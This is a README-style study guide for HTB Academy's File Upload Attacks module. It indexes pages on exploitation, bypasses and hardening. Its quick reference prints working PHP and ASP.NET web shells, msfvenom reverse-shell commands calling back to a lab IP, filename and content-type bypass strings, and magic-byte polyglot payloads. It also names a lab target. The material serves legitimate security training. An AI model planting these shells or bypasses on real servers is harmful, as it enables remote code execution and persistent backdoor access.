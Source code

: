 # File Upload Attacks - HTB Academy Guide

> Complete guide covering file upload vulnerabilities, exploitation techniques, bypass methods, and defense strategies from HTB Academy's File Upload Attacks module.

## 📚 Table of Contents

### Core Techniques
- **[Upload Exploitation](./upload-exploitation.md)** - Web shells, reverse shells, and payload execution
- **[Basic Bypass Techniques](./basic-bypass-techniques.md)** - Extension, content-type, and file signature bypasses
- **[Advanced Bypass Methods](./advanced-bypass-methods.md)** - Complex filtering evasion techniques
- **[Other Upload Attacks](./other-upload-attacks.md)** - Alternative attack vectors and techniques

### Defense & Testing
- **[Prevention & Hardening](./prevention-hardening.md)** - Secure file upload implementation
- **[Skills Assessment Walkthrough](./skills-assessment-walkthrough.md)** - Complete HTB Academy lab solutions

---

## Quick Reference

### 🎯 **Essential Upload Attack Payloads**

**PHP Web Shell (Basic):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**PHP Web Shell (Advanced):**
```php
<?php 
if(isset($_REQUEST['cmd'])){ 
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

**ASP.NET Web Shell:**
```asp
<% eval request('cmd') %>
```

**Reverse Shell Generation:**
```bash
# PHP Reverse Shell
msfvenom -p php/reverse_php LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.php

# JSP Reverse Shell  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.jsp

# ASPX Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f aspx > reverse.aspx
```

### 🔧 **Common Bypass Techniques**
```bash
# Extension Bypasses
file.php.jpg        # Double extension
file.php%00.jpg     # Null byte injection  
file.php%20         # Space injection
file.php%0a         # Newline injection

# Content-Type Bypasses
Content-Type: image/jpeg    # While uploading PHP
Content-Type: image/png     # Bypass MIME filtering
Content-Type: image/gif     # Image masquerading

# Magic Bytes (File Signature)
GIF89a<?php system($_GET['cmd']); ?>    # GIF header + PHP
\xFF\xD8\xFF\xE0<?php system($_GET['cmd']); ?>    # JPEG header + PHP
```

### 🎯 **HTB Academy Coverage**
- ✅ **Web Shell Exploitation** - PHP, ASP.NET, JSP web shells
- ✅ **Reverse Shell Techniques** - Multiple language payloads
- ✅ **Custom Shell Creation** - Manual payload crafting
- ✅ **msfvenom Integration** - Automated payload generation
- ✅ **Complete Lab Solutions** - Step-by-step HTB Academy walkthroughs

---

## Module Overview

File upload vulnerabilities occur when web applications allow users to upload files without proper validation and sanitization. These vulnerabilities can lead to:

### **💀 Critical Impacts:**
- **Remote Code Execution (RCE)** - Execute arbitrary commands on the server
- **Web Shell Deployment** - Persistent backdoor access
- **Data Exfiltration** - Access sensitive files and databases
- **Lateral Movement** - Pivot to internal network systems
- **Website Defacement** - Modify web application content

### **🎯 Attack Vectors:**
- **Unrestricted File Upload** - No validation on file types
- **Client-side Validation Only** - JavaScript-based filtering
- **Inadequate Server-side Validation** - Weak filtering mechanisms
- **File Type Confusion** - MIME type and extension mismatches
- **Path Traversal** - Directory traversal via filename manipulation

### **🛡️ Defense Strategies:**
- **Whitelist Approach** - Allow only specific file types
- **Server-side Validation** - Comprehensive file checking
- **File Content Inspection** - Magic byte verification
- **Secure Storage** - Non-executable upload directories
- **Filename Sanitization** - Remove dangerous characters

---

## HTB Academy Labs Covered

### **🧪 Practical Exercises:**
- **Upload Exploitation Lab** - Basic web shell deployment
- **Bypass Techniques Lab** - Filter evasion methods  
- **Advanced Attacks Lab** - Complex exploitation scenarios
- **Defense Implementation Lab** - Secure upload configuration

### **🎯 Skills Assessment:**
- **Target:** \`94.237.49.23:52640\`
- **Objective:** Upload web shell and retrieve \`/flag.txt\`
- **Techniques:** Extension bypass, content-type manipulation, payload execution

This module provides comprehensive coverage of file upload attack vectors, from basic exploitation to advanced bypass techniques, with practical HTB Academy lab solutions and real-world defense strategies.
